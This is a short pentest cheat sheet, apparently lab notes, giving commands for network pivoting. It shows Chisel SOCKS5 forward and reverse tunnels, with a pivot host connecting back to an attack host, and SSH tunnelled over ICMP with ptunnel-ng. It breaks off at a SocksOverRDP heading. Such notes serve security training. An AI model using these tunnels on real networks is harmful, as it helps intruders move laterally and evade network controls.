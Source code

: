 ## SOCKS5 Tunneling with Chisel

**Chisel Pivot**

{% highlight bash %}
# Chisel server on pivot host
./chisel server -v -p 1234 --socks5

# Connect to the pivot host
./chisel client -v 10.129.202.64:1234 socks

# Proxychains config file
tail -f /etc/proxychains.conf
{% endhighlight %}

**Chisel Reverse Pivot**

{% highlight bash %}
# Chisel server on attack host
sudo ./chisel server --reverse -v -p 1234 --socks5

# Chisel client on pivot host
./chisel client -v 10.10.14.17:1234 R:socks
{% endhighlight %}

## ICMP Tunneling

- https://github.com/utoni/ptunnel-ng

{% highlight bash %}
# ptunnel server on target host
sudo ./ptunnel-ng -r10.129.202.64 -R22

# Connect from attack host
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

# Tunnel SSH through ICMP
ssh -p2222 -lubuntu 127.0.0.1
{% endhighlight %}

## RDP and SOCKS Tunneling with SocksOverRDP
